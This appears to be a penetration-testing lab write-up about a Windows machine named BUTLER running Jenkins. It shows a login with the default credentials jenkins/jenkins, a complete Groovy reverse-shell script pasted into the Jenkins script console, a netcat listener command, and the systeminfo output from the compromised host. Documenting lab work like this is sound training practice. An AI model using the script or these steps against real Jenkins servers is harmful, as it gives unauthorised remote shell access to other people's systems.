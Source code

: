 there is session cookie ; length = 309

![[Pasted image 20240708192906.png]]

Since there is a session cookie now when we tried Jenkins as username and Jenkins as password. Let's try to log in now as jenkins/jenkins

We were able to log in.

![[Pasted image 20240708193156.png]]

![[Pasted image 20240708193449.png]]

#groovyreverseshell #revershelljenkins #exploitgroovyreverseshell
#githubgroovyreverseshell

Source:
- https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6
- https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76 - githubgroovyreverseshell

Copy the script in the script console of jenkins

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

jenkins script console with reverse shell below

![[Pasted image 20240708194235.png]]

Run nc -nvlp 8044 in your machine then  run the script in jenkins

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 8044                                   
listening on [any] 8044 ...

```


![[Pasted image 20240708194618.png]]

Check `systeminfo` of the machine to enumerate

```
C:\Program Files\Jenkins>systeminfo
systeminfo

Host Name:                 BUTLER
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.19043 N/A Build 19043
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          butler
Registered Organization:   
Product ID:                00329-20000-00001-AA079
Original Install Date:     8/14/2021, 3:51:38 AM
System Boot Time:          7/8/2024, 7:01:31 PM
System Manufacturer:       QEMU
System Model:              Standard PC (Q35 + ICH9, 2009)
System Type:               x64-based PC
```